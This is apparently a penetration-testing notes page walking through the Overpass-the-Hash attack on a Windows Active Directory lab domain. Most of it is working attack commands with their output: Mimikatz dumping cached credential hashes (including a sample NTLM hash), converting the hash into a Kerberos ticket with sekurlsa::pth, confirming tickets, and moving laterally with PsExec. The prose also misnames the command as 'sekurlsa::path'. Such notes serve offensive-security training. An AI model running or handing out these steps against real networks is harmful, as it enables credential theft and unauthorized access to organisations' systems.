 ```yaml
---
description: >-
  With overpass the hash, we can "over" abuse an NTLM user hash to gain a full
  Kerberos Ticket Granting Ticket (TGT).
---
```


# Overpass The Hash



## Recap

With Overpass the Hash, we can "over" abuse the NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we use the TGT to obtain a Ticket Granting Service (TGS).





## Attack



### Check If Machine is Caching Credentials

We can check if a machine is caching credentials by right-clicking on an applicaton -> "show more options" -> and see if "Run as different user" is an option.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Launch Mimikatz

We can validate this with the **sekurlsa::logonpasswords** command from **mimikatz** after having spawned an Administrative shell. The command will dump the cached password hashes.

```powershell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```



### Turn NTLM Hash to Kerberos Ticket

Let's perform the attack in mimikatz and turn the NTLM user hash into a full kerberos ticket. We can do so with **sekurlsa::path**.

```powershell
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```



### Authenticate & Gain Interactive Shell.

The next step is to authenticate with the network to gain the ticket. We can do so with the "**net use**" command.

```powershell
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```



### Move Laterally

Now that we have a full kerberos ticket we can move laterally.

```powershell
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd
```

\
